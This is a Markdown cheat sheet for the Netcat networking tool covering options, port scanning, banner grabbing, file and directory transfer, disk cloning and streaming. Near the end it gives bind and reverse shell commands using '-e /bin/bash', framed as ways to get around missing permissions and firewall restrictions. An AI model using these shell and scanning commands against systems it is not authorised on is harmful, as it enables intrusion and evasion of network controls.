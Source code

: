 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
background: bg-blue-600
tags: 
    - ncat
    - nc
    - utility
    - network
    - traffic
categories:
    - Linux Command
intro:  This cheat sheet provides various for using Netcat on both Linux and Unix.
plugins:
    - copyCode
---
```


Getting Started {.cols-5}
---------------

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections
```shell script 
$ nc -lp port [host] [port]
```



### Option examples {.col-span-3 .row-span-2}

| Option | Description                | Example                                  |
|--------|----------------------------|------------------------------------------|
| `-h`   | nc -h                      | Help                                     |
| `-z`   | nc -z 192.168.1.9 1-100    | Port scan for a host or IP address       |
| `-v`   | nc -zv 192.168.1.9 1-100   | Provide verbose output                   |
| `-n`   | nc -zn 192.168.1.9 1-100   | Fast scan by disabling DNS resolution    |
| `-l`   | nc -lp 8000                | TCP Listen mode _(for inbound connects)_ |
| `-w`   | nc -w 180 192.168.1.9 8000 | Define timeout value                     |
| `-k`   | nc -kl 8000                | Continue listening after disconnection   |
| `-u`   | nc -u 192.168.1.9 8000     | Use UDP instead of TCP                   |
| `-q`   | nc -q 1 192.168.1.9 8000   | Client stay up after EOF                 |
| `-4`   | nc -4 -l 8000              | IPv4 only                                |
| `-6`   | nc -6 -l 8000              | IPv6 only                                |


### Chat client-server {.col-span-2}
Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000
```



Netcat Examples
--------

### Banner grabbing
```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
or
```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25
```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080
```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```


### Proxy and port forwarding
```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```
or
```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```
Create a tunnel from one local port to another



### Download file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 < file.txt
```

Client
```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.


### Upload file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 > file.txt
```

Client
```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:


### Directory transfer

Server (192.168.1.9)
```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.


### Encrypt transfer {.col-span-2}


Server (192.168.1.9)
```shell script
$ openssl enc -des3 -in file.txt -pass pass:password | nc -l 8000
```

Client
```shell script
$ nc 192.168.1.9 8000 | openssl enc -des3 -d -pass pass:password -out file.txt
```

Encrypt data before transfering over the network



### Clones

Server (192.168.1.9)
```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda



### Video streaming

Server (192.168.1.9)
```shell script
$ cat video.avi | nc -l 8000
```

Client
```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat




### Remote shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000 -e /bin/bash
```

Client
```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.



### Reverse shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

